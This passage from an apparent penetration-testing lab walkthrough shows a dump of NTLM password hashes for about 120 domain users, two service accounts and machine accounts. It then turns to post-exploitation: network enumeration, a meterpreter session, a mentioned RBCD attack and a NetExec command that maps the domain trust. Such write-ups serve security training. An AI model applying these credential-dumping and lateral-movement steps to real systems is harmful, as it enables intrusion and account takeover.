m3c.local\Andre.Smith:1174:aad3b435b51404eeaad3b435b51404ee:f077f1f5108974640a9f0bb9e9c396d2:::
m3c.local\Jose.Fogle:1175:aad3b435b51404eeaad3b435b51404ee:fa8b95a2e8ed9a9e7d8ec8c51f61c245:::
m3c.local\Annie.Conley:1176:aad3b435b51404eeaad3b435b51404ee:3a555b34044b18ce093881afbd489cbf:::
m3c.local\William.Crow:1177:aad3b435b51404eeaad3b435b51404ee:5c991e56c68ce29a0200d742ba216447:::
m3c.local\Michael.Mullins:1178:aad3b435b51404eeaad3b435b51404ee:7e78b4530521b7c7b08648baa44dded0:::
m3c.local\Sara.Phillips:1179:aad3b435b51404eeaad3b435b51404ee:555161a5881cc06fef50d1b4270824ad:::
m3c.local\Edna.Hart:1180:aad3b435b51404eeaad3b435b51404ee:7f50cb12ce67f229220f881721c3ce4c:::
m3c.local\Phyllis.Smith:1181:aad3b435b51404eeaad3b435b51404ee:66c141bd7382c68ad824dc5197adbbef:::
m3c.local\Adam.Vanderbilt:1182:aad3b435b51404eeaad3b435b51404ee:6ce4a73c495ed37849af8d0b260c862d:::
m3c.local\Craig.Johnson:1183:aad3b435b51404eeaad3b435b51404ee:6e13c13568ea14859ec306f7d8a7fc8a:::
m3c.local\John.Smith:1184:aad3b435b51404eeaad3b435b51404ee:e2095bb8274a6b1cdb2104fc1d7b5f45:::
m3c.local\Gary.McCrory:1185:aad3b435b51404eeaad3b435b51404ee:3e67ed098d3e416f1f5b61e4ed90c107:::
m3c.local\Kenneth.Carter:1186:aad3b435b51404eeaad3b435b51404ee:27fbbd2453a61fec430f030a34c90a1c:::
m3c.local\Beverly.Mahoney:1187:aad3b435b51404eeaad3b435b51404ee:e99ce39f3016ab58163c9be32697609f:::
m3c.local\Margaret.Williams:1188:aad3b435b51404eeaad3b435b51404ee:c16391a2cddfd7e6abead416ca944c35:::
m3c.local\Elfreda.Telles:1189:aad3b435b51404eeaad3b435b51404ee:674303140693bd0660ee6a101a49ac54:::
m3c.local\Peter.Huntsman:1190:aad3b435b51404eeaad3b435b51404ee:37cb8dce67abb18a9e8463851896f031:::
m3c.local\Susan.Nation:1191:aad3b435b51404eeaad3b435b51404ee:e55fb9d00af9286dedd633a206a96d69:::
m3c.local\Manuel.Dube:1192:aad3b435b51404eeaad3b435b51404ee:ba3efde01a0cca1c1dff0841708729cc:::
m3c.local\Jason.Giannini:1193:aad3b435b51404eeaad3b435b51404ee:9b9a074674c1434651499ba8260f4b37:::
m3c.local\Danny.Runion:1194:aad3b435b51404eeaad3b435b51404ee:23ede8fa682ba9e82d105ec21e57d57e:::
m3c.local\Keneth.Messersmith:1195:aad3b435b51404eeaad3b435b51404ee:a411415904ff49d30027ac711528122f:::
m3c.local\Sharon.Jennings:1196:aad3b435b51404eeaad3b435b51404ee:087d5aabf5ff1b3f42581c2f1f2f585d:::
m3c.local\Carl.Rhoads:1197:aad3b435b51404eeaad3b435b51404ee:d94b52b381a9c6412efaac69de0c7a1c:::
m3c.local\Johanna.Norwood:1198:aad3b435b51404eeaad3b435b51404ee:d4c65297c4998b05e610dc617570a16d:::
m3c.local\Denise.Gragg:1199:aad3b435b51404eeaad3b435b51404ee:7ed52f2d2ad3575d20427577c4987040:::
m3c.local\Wayne.Anderson:1200:aad3b435b51404eeaad3b435b51404ee:07974e59bd29b98ce7028b823889fcc0:::
m3c.local\Henry.Moore:1201:aad3b435b51404eeaad3b435b51404ee:c20601627e88b9bbbf61a7e29a218c6b:::
m3c.local\Marjorie.Donahue:1202:aad3b435b51404eeaad3b435b51404ee:ab2c2868b9c607363e00bb588b46ba27:::
m3c.local\Michelle.Schwindt:1203:aad3b435b51404eeaad3b435b51404ee:0c5d9b0f780f4976a751830484a12bce:::
m3c.local\Lisa.George:1204:aad3b435b51404eeaad3b435b51404ee:185f18b068a6a0b260ced04f4943a886:::
m3c.local\Mark.Hanover:1205:aad3b435b51404eeaad3b435b51404ee:631bada1d154ba6e283c397f5540af55:::
m3c.local\George.Jack:1206:aad3b435b51404eeaad3b435b51404ee:e40d2fd82bc39897a2368269ad885444:::
m3c.local\Michael.Whitt:1207:aad3b435b51404eeaad3b435b51404ee:2ede30f61322f740902828256101ef2c:::
m3c.local\Miranda.Paxton:1208:aad3b435b51404eeaad3b435b51404ee:95a4304bf38c5b441a9b64203ae1c8d5:::
m3c.local\Louis.Gilman:1209:aad3b435b51404eeaad3b435b51404ee:3446d760f2d64423ecddce6b4430a61e:::
m3c.local\Beverly.Spencer:1210:aad3b435b51404eeaad3b435b51404ee:d189e31ef91bbd47957a06f9c60e7dec:::
m3c.local\Wendy.Duff:1211:aad3b435b51404eeaad3b435b51404ee:1061ba560b8adb24cdc2f28fa209adbd:::
m3c.local\Carl.Murrah:1212:aad3b435b51404eeaad3b435b51404ee:50e2d3f930745c2003373915ba9111a6:::
m3c.local\Terrell.Clifton:1213:aad3b435b51404eeaad3b435b51404ee:41c746c4c7238275289872d27403a6fe:::
m3c.local\Lauren.McDonald:1214:aad3b435b51404eeaad3b435b51404ee:e95770ffbe178cb30622aca28a32adb1:::
m3c.local\Mary.Knight:1215:aad3b435b51404eeaad3b435b51404ee:8bbc70d4c1ced7155328c7509a68ef46:::
m3c.local\Myrtle.Jenkins:1216:aad3b435b51404eeaad3b435b51404ee:032a6feb3adf8baa366efc20422c5be4:::
m3c.local\Spencer.Wiley:1217:aad3b435b51404eeaad3b435b51404ee:87c14d4890f37da89232c5f7c1570999:::
m3c.local\Carl.Ramirez:1218:aad3b435b51404eeaad3b435b51404ee:642a0232566001e0b1dec341dcd4122e:::
m3c.local\Daniel.Jordan:1219:aad3b435b51404eeaad3b435b51404ee:c18ab6aa558f52e6ed0dd01ed78dfa1e:::
m3c.local\Anne.Adams:1220:aad3b435b51404eeaad3b435b51404ee:d5f7b890cdeef736167eb1aa911596b9:::
m3c.local\Charles.Rodriguez:1221:aad3b435b51404eeaad3b435b51404ee:cd4122bea6fbfa69fb8e06d744f5a8f8:::
m3c.local\Jack.Gonzalez:1222:aad3b435b51404eeaad3b435b51404ee:657f7b9017861de9394b8719e127d8b5:::
m3c.local\Lisa.Baldwin:1223:aad3b435b51404eeaad3b435b51404ee:d9fc5459e223b394ac0087c003a904b5:::
m3c.local\Jason.Dyer:1224:aad3b435b51404eeaad3b435b51404ee:3b191eae0b01fa042673a57622620654:::
m3c.local\Pauline.Gottschalk:1225:aad3b435b51404eeaad3b435b51404ee:ae2d2177114be23d36143c5e3a5ae12e:::
m3c.local\Kenneth.Johnson:1226:aad3b435b51404eeaad3b435b51404ee:53957a903d14a37d8dc67f65fa76142e:::
m3c.local\Laura.Swann:1227:aad3b435b51404eeaad3b435b51404ee:963a808fa7205ca86965a13cf413b61a:::
m3c.local\Candelaria.Jones:1228:aad3b435b51404eeaad3b435b51404ee:11495d1a872f7a87efae6168e0ae03c7:::
m3c.local\Catherine.Cole:1229:aad3b435b51404eeaad3b435b51404ee:c1a16e0ee787c8c1b14bfddb18c13e53:::
m3c.local\Samuel.Nadeau:1230:aad3b435b51404eeaad3b435b51404ee:885c143d8aa4f692df278e851026b947:::
m3c.local\Harry.Chadwick:1231:aad3b435b51404eeaad3b435b51404ee:d6bfb91f61aa7183a1d7b37be45835b0:::
m3c.local\Lawrence.Elia:1232:aad3b435b51404eeaad3b435b51404ee:5e6734101a6832d2b555f59cff2a1c72:::
m3c.local\Elizabeth.Rice:1233:aad3b435b51404eeaad3b435b51404ee:d139865ab99d846cfdc59476f8535a2c:::
m3c.local\Steven.Coleman:1234:aad3b435b51404eeaad3b435b51404ee:56a26ef5828c4b517a069de4352617a4:::
m3c.local\Joshua.Mabry:1235:aad3b435b51404eeaad3b435b51404ee:9364ab62922994f41ed737f6527ead07:::
m3c.local\Gabriel.Fox:1236:aad3b435b51404eeaad3b435b51404ee:3d6b79c9e51e65071890bf3da0164ff6:::
m3c.local\Eric.Green:1237:aad3b435b51404eeaad3b435b51404ee:027488b40012a6f89dc8f44d3585fbf4:::
m3c.local\Darla.Bailey:1238:aad3b435b51404eeaad3b435b51404ee:65cde574ab671d85118c575964a96dcc:::
m3c.local\Dina.Jordan:1239:aad3b435b51404eeaad3b435b51404ee:f4cab11514b3cff4b75285287389b7d8:::
m3c.local\Ruth.Rogers:1240:aad3b435b51404eeaad3b435b51404ee:c0f59349765be35ec69a46250fdf266a:::
m3c.local\Mary.Powers:1241:aad3b435b51404eeaad3b435b51404ee:0544e3560939ae5919362518a677ba97:::
m3c.local\Heather.Strum:1242:aad3b435b51404eeaad3b435b51404ee:409ae5f834eb42335ae7fc4a6dc274c4:::
m3c.local\Tracy.Adams:1243:aad3b435b51404eeaad3b435b51404ee:69749cd4d4ae5c34329bbffa19fc037a:::
m3c.local\Lucius.Sheets:1244:aad3b435b51404eeaad3b435b51404ee:92aed3cb55e52b3d2e42c3b5c1b4fdc7:::
m3c.local\Edna.Hammond:1245:aad3b435b51404eeaad3b435b51404ee:1cbf2a7dee9a5991d850e1eedccd3e2c:::
m3c.local\Eleanor.Hansen:1246:aad3b435b51404eeaad3b435b51404ee:b7f8a60e5915b6e678e1cfc7c311971b:::
m3c.local\Brian.Menzel:1247:aad3b435b51404eeaad3b435b51404ee:565cc5c1e4eec767c1178a992cdfbd05:::
m3c.local\Richard.Tarry:1248:aad3b435b51404eeaad3b435b51404ee:3f6f6e6b234dc1eb6ce03ca8db6e4f4d:::
m3c.local\Mary.Lewis:1249:aad3b435b51404eeaad3b435b51404ee:fe629f0a626334b6ddfed9834894a9e6:::
m3c.local\Marc.Nelson:1250:aad3b435b51404eeaad3b435b51404ee:632972e37ae49940585f555782319fe2:::
m3c.local\Rachel.Ford:1251:aad3b435b51404eeaad3b435b51404ee:1e8f7f8c7e621cebd64ff7bde15603d3:::
m3c.local\Henry.Donnelly:1252:aad3b435b51404eeaad3b435b51404ee:05478a68749fb40befb403be2e7183d8:::
m3c.local\Ella.Sae:1253:aad3b435b51404eeaad3b435b51404ee:bfdf8e1697255036de82d79b5efcd6cf:::
m3c.local\James.Mitchell:1254:aad3b435b51404eeaad3b435b51404ee:40389a89943a8d3b78eaca507ffddebd:::
m3c.local\Chester.Turk:1255:aad3b435b51404eeaad3b435b51404ee:80e4db1fc268054933b2fc941cdeadc7:::
m3c.local\Derrick.Holland:1256:aad3b435b51404eeaad3b435b51404ee:7057ded280aa183dc76e544fea6296e0:::
m3c.local\Tina.Lacasse:1257:aad3b435b51404eeaad3b435b51404ee:9b05acb0bddd657036ea435d5a080191:::
m3c.local\Christopher.Harnois:1258:aad3b435b51404eeaad3b435b51404ee:3066a9055c598c55f744a3f78c0ea26d:::
m3c.local\Nanette.Long:1259:aad3b435b51404eeaad3b435b51404ee:ab1866b759707b18909509b557e8a03b:::
m3c.local\Ronald.Dorsey:1260:aad3b435b51404eeaad3b435b51404ee:0c4d79d374571e0b3ac845d59b84e4ea:::
m3c.local\Emma.Bowers:1261:aad3b435b51404eeaad3b435b51404ee:ea7badcb70b819b056790f40ac664c57:::
m3c.local\Linda.Carlson:1262:aad3b435b51404eeaad3b435b51404ee:5ce744b540be3c85386ef2a28931688e:::
m3c.local\John.Clarke:1263:aad3b435b51404eeaad3b435b51404ee:2383f420ece0278f08a695210ae5bf33:::
m3c.local\Ola.Bishop:1264:aad3b435b51404eeaad3b435b51404ee:3e9d052ea3129fba5a1cfcba034ed1ae:::
m3c.local\Sabrina.Adams:1265:aad3b435b51404eeaad3b435b51404ee:5904da8ec0a2a504839c0be4feecc2d1:::
m3c.local\Robert.Merlin:1266:aad3b435b51404eeaad3b435b51404ee:b386c9328e3bf49df08df82a9cf92a47:::
m3c.local\Jeffrey.Lyle:1267:aad3b435b51404eeaad3b435b51404ee:c1f26934b62ad46fb0b6f46c6c96e2b5:::
m3c.local\Brian.Smith:1268:aad3b435b51404eeaad3b435b51404ee:a356d64afa2c86b0b4dfa14342428b08:::
m3c.local\Paula.Stephens:1269:aad3b435b51404eeaad3b435b51404ee:5c24c935d21f9525721bb93f738029f6:::
m3c.local\Dana.Warren:1270:aad3b435b51404eeaad3b435b51404ee:73dbabb01f7bb40947053e8aa6135fee:::
m3c.local\Woodrow.Thompson:1271:aad3b435b51404eeaad3b435b51404ee:7ead1607a9ef385c0e8bf58c0d06e8ce:::
m3c.local\Frankie.Bennett:1272:aad3b435b51404eeaad3b435b51404ee:8584391a90c59bede5f35abd1d1a3178:::
m3c.local\John.Ashbrook:1273:aad3b435b51404eeaad3b435b51404ee:33cb7429bbcf2c70f50dd9b28c24d664:::
m3c.local\Luis.Blanton:1274:aad3b435b51404eeaad3b435b51404ee:0dbef0ae466ef26abeecf7f709ea0496:::
m3c.local\Brenda.Young:1275:aad3b435b51404eeaad3b435b51404ee:89eb4baaf7c5a299d3e9b3d8911d3d82:::
m3c.local\Chris.Dunham:1276:aad3b435b51404eeaad3b435b51404ee:41375110dd0bfc84f6ef73d5d7463403:::
m3c.local\Markita.Gonzales:1277:aad3b435b51404eeaad3b435b51404ee:d49f330159ee7f951dfc016363885187:::
m3c.local\Mildred.Larue:1278:aad3b435b51404eeaad3b435b51404ee:ec4c55dd183bb93d83ad459551f3b260:::
m3c.local\Kimberly.Campbell:1279:aad3b435b51404eeaad3b435b51404ee:3f35e53d6239b28484be653def5b99b5:::
m3c.local\David.Carr:1280:aad3b435b51404eeaad3b435b51404ee:7f6ef60c0214df137ad87278c8d13c3d:::
m3c.local\Hermine.Hall:1281:aad3b435b51404eeaad3b435b51404ee:6eb716f2faff41a6845fd759d38d94d5:::
m3c.local\Wayne.Johnson:1282:aad3b435b51404eeaad3b435b51404ee:2926598a3a20771dcf3eaa55a1a4c41b:::
m3c.local\Gail.Robinson:1283:aad3b435b51404eeaad3b435b51404ee:9006a7c59db1bf874e745007e3e31285:::
m3c.local\Felipe.Gillum:1284:aad3b435b51404eeaad3b435b51404ee:97fa9d6cf3ee53a1979404bf5c74b4c3:::
m3c.local\Edgar.Hagerman:1285:aad3b435b51404eeaad3b435b51404ee:c82fbbb86036c50c9160692abc584839:::
m3c.local\John.Chan:1286:aad3b435b51404eeaad3b435b51404ee:1fabecb3886cdf45bff503f7ff032c36:::
m3c.local\Richard.Macleod:1287:aad3b435b51404eeaad3b435b51404ee:06aec1f299f8d52dd10995d5a132fb46:::
m3c.local\Elizabeth.Dunham:1288:aad3b435b51404eeaad3b435b51404ee:f71842ca161a133edcc015c5206616d8:::
m3c.local\Robert.Jones:1289:aad3b435b51404eeaad3b435b51404ee:5adbe1d84a3617f384dee873fc65e9fd:::
m3c.local\Troy.Bing:1290:aad3b435b51404eeaad3b435b51404ee:7849b732fe3058e0b555b7e0e6ad051a:::
m3c.local\Saul.Wright:1291:aad3b435b51404eeaad3b435b51404ee:aad487d2154ddfcd3a8539049e17bd72:::
m3c.local\svc_sql:1292:aad3b435b51404eeaad3b435b51404ee:e04c4ef54a1a6f4e4fc0de22f0b5fb2d:::
m3c.local\svc_apache:1293:aad3b435b51404eeaad3b435b51404ee:b266d8902ae30ec65abdfbe28d34c819:::
M3WEBAW$:1318:aad3b435b51404eeaad3b435b51404ee:2e61a0e49c4724aebfd2878d1e612518:::
M3SQLW$:1320:aad3b435b51404eeaad3b435b51404ee:a09cbeb5c0e16d1e926c5b3d884949a4:::
yovecio:12101:aad3b435b51404eeaad3b435b51404ee:a5bcd209fb3d31376955f8a129f55bfa:::
[*] Cleaning up...
```

&nbsp;

# POST Exploitation

Now I don't think we can find other information on the M3DC but I suspect we will see some informations about other federated DOMAINS?

We can start by checking the available NICs?

```
PS C:\> ipconfig.exe

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . :
   Link-local IPv6 Address . . . . . : fe80::f0c1:21:a92b:4e26%3
   IPv4 Address. . . . . . . . . . . : 10.9.20.10
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.9.20.1

Tunnel adapter isatap.{581510A3-CA1F-4D05-9807-18AA08864E41}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . :
PS C:\>
```

what?? Seems like no other NICS are on the machine, but we know for sure that the DC is federated with other from previous scan in Bloodhound.



Can we ping the Cyber.local?

NO!

```
PS C:\> ping cyber.local
Ping request could not find host cyber.local. Please check the name and try again.
PS C:\> nslookup cyber.local
DNS request timed out.
    timeout was 2 seconds.
Server:  UnKnown
Address:  ::1

DNS request timed out.
    timeout was 2 seconds.
DNS request timed out.
    timeout was 2 seconds.
*** Request to UnKnown timed-out
PS C:\>
```

But then I realized I had a RDP on the machine so looking into the DNS I found the next subnet:



And the other at:



Now trying to guess seems like all the machines in ad can reach those addresses even without the right NIC...


Cool Now we can expect 2 more AD, one on **10.9.15.0/24** and the other at **10.9.10.0/24**. I will now use my meterpreter session from before and

We can use NETEXEC to enumerate the trush between domains:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics]
└─# NetExec ldap 10.9.20.10 -k --use-kcache -u "john.clark" -d "m3c.local" -M enum_trusts
SMB         10.9.20.10      445    M3DC             [*] Windows 10 / Server 2016 Build 14393 x64 (name:M3DC) (domain:m3c.local) (signing:True) (SMBv1:False)
LDAP        10.9.20.10      389    M3DC             [+] m3c.local\john.clark from ccache 
ENUM_TRUSTS 10.9.20.10      389    M3DC             [+] Found the following trust relationships:
ENUM_TRUSTS 10.9.20.10      389    M3DC             cyber.local -> Outbound -> Forest Transitive
```

&nbsp;

# EXTRA

About the issue i had to perform the RBCD the only issue was using Norma.H which was yes part of the "IT ADMINS" group as all the others but she held no access to the M3DC via PSexec as the other did!

&nbsp;

&nbsp;

&nbsp;

&nbsp;

&nbsp;

&nbsp;